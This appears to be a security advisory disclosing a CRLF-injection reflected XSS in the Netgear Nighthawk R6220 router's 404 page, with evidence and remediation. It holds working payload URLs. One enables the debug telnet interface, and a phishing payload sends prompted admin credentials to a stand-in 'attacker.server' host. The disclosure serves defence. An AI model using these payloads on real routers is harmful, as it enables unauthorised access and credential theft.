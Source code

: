 
## Response Splitting via CRLF

### Description

CRLF (Carriage Return Line Feed) Injection
CWE-93: https://cwe.mitre.org/data/definitions/93.html

Response splitting via Carriage Return Line Feed (CRLF) is a vulnerability that exploits the way HTTP headers parse certain characters such as \rand \n. Appending these characters to HTTP headers can allow the insertion of payloads into a header which can result in the manipulation of cookies, server information, and status codes.

Type: Unauthenticated Remote attack

Tested on firmware version: V1.1.0.112_1.0.1, V1.1.0.114_1.0.1

### Details

The web interface of the 'Nighthawk R6220 AC1200 Smart Wi-Fi Router' is vulnerable to a CRLF Injection attack that can be leveraged to perform Reflected XSS and HTML Injection.

This issue affects the custom 404 page that is served when a request is issued for a page that does not exist. By leveraging this vulnerability, an unauthenticated remote attacker is able to inject arbitrary HTML and JavaScript code to be executed in a user's browser.

### Impact

A malicious attacker can exploit this vulnerability using a specially crafted URL. If this URL is opened by an administrator, the attacker can achieve the following:

1) Perform actions on the administrative portion of the web application
Example payload that enables the debug telnet interface: 
`https://192.168.1.1/666%0A%0A%3Cscript%3Edocument.location=%22https://192.168.1.1/setup.cgi?todo=debug%22;%3C/script%3E`

2) Obtain the administrator's credentials through phishing 
Example phishing payload: 
`https://192.168.1.1/123%0A%0A%3Cscript>var name=prompt("Username");var pass=prompt("Password");document.location="http://attacker.server/?user="+name+"?pass="+pass;</script>`

Note that if another vulnerability is presented in the administrative portal such as a Remote Command Execution (RCE), an attacker can use a specially crafted URL and chain the two vulnerabilities to create a one-click exploit.

### Evidence

The request consists of a resource that does not exist ("xsstesty") followed by Line-Feed characters (%0A%0A) and the JavaScript payload.

Request

```
GET /xsstesty%0A%0A%3Cscript%3Ealert('xss');%3C/script%3E 
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: sessionid=sid17289xxx158005xxx1087458037
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Note that the HTTP response headers are embedded directly into the 404 page response body and the payload is executed on the victim's browser.

Response Body

```
<script>alert('xss');</script> HTTP/1.1 404 Not Found
Server: 
Date: Fri, 02 Jan 1970 02:44:27 GMT
Content-Type: text/html
P3P: 443
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1;mode=block
X-Content-Type-Options: nosniff
Connection: close

        <HTML>
        <HEAD><TITLE>404 Not Found</TITLE></HEAD>
        <BODY BGCOLOR="#cc9999" TEXT="#000000" LINK="#2020ff" VLINK="#4040cc">
        <H4>404 Not Found</H4>
File not found.
</BODY>
</HTML>
```

<p align="center">
  <img src="https://raw.githubusercontent.com/dest-3/NETGEAR/main/CVE-2022-47052/XSS_Response_Body.png"/>
</p>

### Remediation

Sanitize and neutralize all user-supplied data or properly encode output in HTTP headers that would otherwise be visible to users in order to prevent the injection of CRLF sequences and their consequences.